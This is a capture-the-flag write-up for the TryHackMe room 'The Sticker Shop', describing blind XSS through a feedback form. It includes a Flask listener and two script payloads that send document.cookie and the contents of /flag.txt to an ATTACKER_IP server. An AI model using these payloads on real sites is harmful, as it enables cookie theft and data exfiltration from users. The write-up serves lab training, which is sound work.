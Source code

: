 ```yaml
---
layout: default
title: The Sticker Shop THM - Write up
---
```


# The Sticker Shop THM - Write up (Easy)

## Description
Can you read the flag at http://10.10.102.26:8080/flag.txt?

## Accessing http://10.10.102.26:8080
There is home page and one feedback page.

![image](https://github.com/user-attachments/assets/b9cfa04d-081c-4b59-8fef-717107a3bba8)

most likely we have to put our payload on the feedback page.

## Trying to access http://10.10.102.26:8080/flag.txt
![flag.txt](https://github.com/user-attachments/assets/9d160fb6-df50-41bd-8cc2-adebbaf590d0)

it returns "401 Unauthorized".

## Trying XSS
Common Reflected XSS playloads didnt work for me in the feedback page. so I accessed the hint which says "Can you conduct any client-side exploitation in order to read the flag?". 
I became certain that there is XSS in the page. I tried for blind XSS.

### Creating a server
I Created a simple server using flask.

![image](https://github.com/user-attachments/assets/b51c2017-5a94-424b-be59-5e132a634a54)

Code: 
```
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['POST'])
def capture_flag():
    data = request.data.decode('utf-8')
    print(f"Received data: {data}")
    return 'Data received!', 200

if __name__ == '__main__':
    app.run(host='ATTACKER_IP', port=8000)
```
### Running the server
![image](https://github.com/user-attachments/assets/84e46136-cae4-4683-91e4-4078c506cb07)

### Putting the payload
![image](https://github.com/user-attachments/assets/c841d029-aa28-4c46-84fc-7a22251ead9a)

payload:
```
<script>document.location='http://ATTACKER_IP:8000/xss?cookie=' + document.cookie</script>
```
Enter the payload and click submit.

### Output
![image](https://github.com/user-attachments/assets/f1780783-0d26-4fbb-8d0e-ae540c56086f)

The paylaod works, the website doesnt use cookies so theres no cookie showing.

## Getting the flag

### Putting the payload
![image](https://github.com/user-attachments/assets/051da70d-5c1a-4434-bc7e-46843c5c6e6c)

payload for the flag:
```
<script>
    fetch('/flag.txt')
        .then(res => res.text())
        .then(flag => fetch('http://ATTACKER_IP:8000', {method: 'POST', body: flag}));
</script>
```
click submit.

### output
![image](https://github.com/user-attachments/assets/43386fd9-82d9-4abf-8e81-105357d232e9)

got the flag.










